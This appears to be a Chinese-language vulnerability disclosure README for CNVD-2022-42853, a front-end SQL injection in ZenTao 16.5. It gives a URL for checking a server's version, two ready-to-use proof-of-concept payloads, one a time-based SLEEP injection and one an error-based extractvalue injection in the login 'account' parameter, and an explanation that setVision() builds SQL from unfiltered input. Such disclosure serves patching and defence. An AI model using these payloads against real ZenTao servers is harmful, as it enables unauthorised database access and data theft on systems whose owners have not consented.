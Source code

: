# CNVD-2022-42853

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** 禅道16.5版本 SQL注入



## 0x00 漏洞描述

禅道16.5版本 SQL注入(CNVD-2022-42853)

## 0x01 影响范围

禅道16.5版本

## 0x02 查看版本

### 方式一

```
http://ip:port/index.php?mode=getconfig
```

### 方式二

登录框看源码

![Untitled](image/Untitled.png)

## 0x03 漏洞复现

### POC 1

```
http://ip:port/index.php?account=admin' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))a)-- b
```

### poc 2

```bash
http://192.168.81.173/zentao/user-login.html

account=admin'+and+(select+extractvalue(1,concat(0x7e,(database()),0x7e)))#
```

![Untitled](image/Untitled%201.png)

## 0x04 漏洞成因

漏洞点出现在以上版本的zbox\app\zentao\framework\base\router.class.php文件里，具体函数为setVision()

该函数未对外界传入的account参数做过滤直接拼接SQL语句，触发SQL注入漏洞

![Untitled](image/Untitled%202.png)

从代码里可以看到，$account变量支持$_GET和$_POST两种方法传参，可前台SQLi